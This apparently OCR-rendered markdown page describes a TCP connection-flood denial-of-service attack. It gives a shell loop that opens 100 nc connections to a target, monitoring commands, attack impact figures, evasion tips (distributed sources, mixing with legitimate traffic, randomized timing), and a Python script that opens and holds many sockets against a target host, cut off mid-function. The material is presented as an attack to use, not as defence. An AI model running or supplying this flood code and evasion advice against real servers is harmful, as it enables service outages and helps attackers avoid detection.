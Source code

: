## 🔧 Verification Commands
```bash
# Test connection limits
for i in {1..100}; do nc -w 1 target_ip 80 & done; wait

# Check current connections
netstat -an | grep :80 | grep ESTABLISHED | wc -l

# Monitor resource usage during attack
watch 'ps aux | grep apache2 | wc -l'

# Test connection timeout
timeout 30 nc target_ip 80

# Check system resource limits
cat /proc/sys/fs/file-max
cat /proc/sys/net/core/somaxconn
```

## 📈 Attack Metrics
- **Connection Rate**: 50-5,000 connections/sec
- **Memory Impact**: 10-500MB depending on scale
- **CPU Impact**: 10-30% utilization increase
- **File Descriptor Usage**: Up to system limits
- **Service Response**: 100-1000% latency increase

## 🔄 Advanced Evasion
- **Distributed Sources**: Multiple IP addresses
- **Connection Rotation**: Regularly close/reopen connections
- **Legitimate Requests**: Mix with real application traffic
- **Timing Variation**: Randomize connection intervals
- **Protocol Compliance**: Proper HTTP/application protocols

## 🔬 Attack Analysis
### Python Script Examples:
```python
import socket
import threading
import time
import random

def connection_flood_basic(target_ip, target_port, num_connections):
    """Basic TCP connection flood"""
    connections = []
    
    for i in range(num_connections):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(1)
            sock.connect((target_ip, target_port))
            connections.append(sock)
            print(f"Connection {i+1} established")
        except Exception as e:
            print(f"Connection {i+1} failed: {e}")
            
    # Keep connections alive
    print(f"Maintaining {len(connections)} connections...")
    input("Press Enter to close connections...")
    
    for sock in connections:
```